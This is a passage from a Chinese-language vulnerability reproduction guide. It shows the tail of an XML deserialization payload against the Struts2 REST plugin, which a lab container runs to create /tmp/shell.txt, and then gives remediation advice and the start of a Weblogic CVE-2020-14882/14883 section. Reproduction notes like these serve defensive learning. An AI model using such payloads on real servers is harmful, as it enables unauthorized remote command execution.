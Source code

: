     </method>
    <name>foo</name>
    </filter>
    <next class="string">foo</next>
    </serviceIterator>
    <lock/>
    </cipher>
    <input class="java.lang.ProcessBuilder$NullInputStream"/>
    <ibuffer></ibuffer>
    <done>false</done>
    <ostart>0</ostart>
    <ofinish>0</ofinish>
    <closed>false</closed>
    </is>
    <consumed>false</consumed>
    </dataSource>
    <transferFlavors/>
    </dataHandler>
    <dataLen>0</dataLen>
    </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
    </entry>
    <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    </entry>
    </map>

    ```

    其中`<command></command>`字段为执行的命令，在/tmp下创建一个shell.txt文件。重放报错，但可以在容器/tmp文件下发现shell.txt文件,证明漏洞复现成功。


* 修复建议

    1.停止使用REST插件。

    2.限制服务端扩展类型:`<constant name="struts.action.extension" value="xhtml,,json" />`

# Weblogic

>[参考文章](https://www.freebuf.com/articles/web/323919.html)

##  Weblogic 管理控制台未授权远程命令执行漏洞(CVE-2020-14882&CVE-2020-14883)

* 原理

    Weblogic是Oracle公司推出的J2EE应用服务器。在2020年10月的更新中，Oracle官方修复了两个长亭科技安全研究员@voidfyoo 提交的安全漏洞，分别是CVE-2020-14882和CVE-2020-14883。
